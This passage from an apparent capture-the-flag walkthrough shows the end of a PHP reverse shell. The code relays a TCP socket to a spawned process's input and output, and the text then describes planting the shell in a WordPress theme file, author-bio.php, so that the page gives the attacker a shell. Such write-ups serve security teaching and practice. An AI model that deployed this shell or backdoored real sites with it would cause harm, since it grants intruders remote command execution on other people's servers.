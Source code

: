 ```php

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

As an administrator we can do anything we want so let's edit the theme files, to our advantage, giving for example the `author-bio.php` file for our reverse shell, meaning that instead of displaying the biography of the author it will now run a reverse shell for us!

![mrrobot4](/images/mrrobot4.png)

